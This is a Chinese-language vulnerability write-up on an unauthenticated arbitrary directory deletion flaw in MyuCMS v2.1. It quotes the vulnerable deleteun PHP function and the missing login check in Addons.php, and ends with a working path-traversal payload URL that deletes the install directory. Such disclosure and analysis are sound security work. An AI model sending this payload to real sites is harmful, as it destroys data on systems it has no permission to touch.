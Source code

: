 MyuCMS v2.1 任意目录删除漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

因为漏洞描述是任意文件删除，所以先全文搜索 **unlink**
函数，定位到存在文件删除功能的代码段。

定位到 **application/common.php** 中的 **deleteun** 函数

![1.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1任意目录删除漏洞/media/rId24.jpg)

    function deleteun($dir_name)
    {
        $result = false;
        if (is_dir($dir_name)) { // 判断是否为目录
            if ($handle = opendir($dir_name)) { // 打开目录
                while (false !== ($item = readdir($handle))) { // 通过这个 while 遍历目录中的文件 
                    if ($item != '.' && $item != '..') {
                        if (is_dir($dir_name . DS . $item)) { // 若遍历到的文件为子目录，则递归调用deleteun
                            deleteun($dir_name . DS . $item);
                        } else {
                            unlink($dir_name . DS . $item); // 删除遍历到的文件
                        }
                    }
                }
                closedir($handle); // 关闭文件夹
                if (rmdir($dir_name)) { // 删除该目录
                    $result = true;
                }
            }
        }

        return $result;
    }

根据 **deleteun**
函数的实现代码来看，我们可以看到该函数中对传入的参数无任何限制。

然后在整个项目中搜索，看哪个文件中调用了 **deleteun** 函数。

发现总共三处两个文件调用了该函数，且这三处代码内容相同，只不过是传递给的
**deleteun**
函数的参数不同，我们可以判断出，这三处都可以触发任意目录删除漏洞。

![2.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1任意目录删除漏洞/media/rId25.jpg)

这三处的不同之处在于。**Muban.php** 继承了 **Common** 类，在 **Common**
类中实现了对于是否已经登录的验证。实现代码如下。

    public function _initialize(){
            if(!session('usermail') || !session('kouling')){
               $this->error('请登录',url('login/index')); 
               print s();
            }

        }

而 **Addons.php** 继承自 **AdminBase** 类，且初始化时执行父类
**AdminBase** 的 **\_initialize()** 方法，在 **AdminBase**
类中调用了父类 **Controller** 的 **\_initialize()** 方法。而父类的
**Controller** 的 **\_initialize();** 方法的实现内容为空。

所以 **Addons.php**
在未登录的情况下也可以访问。这意味我们不需要登录后台也可以触发任意目录删除漏洞。

### Payload

所以给出 Payload 如下，即可删除整个 **install** 目录

    Payload: http://www.0-sec.org/admin/Addons/un?info=../install

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
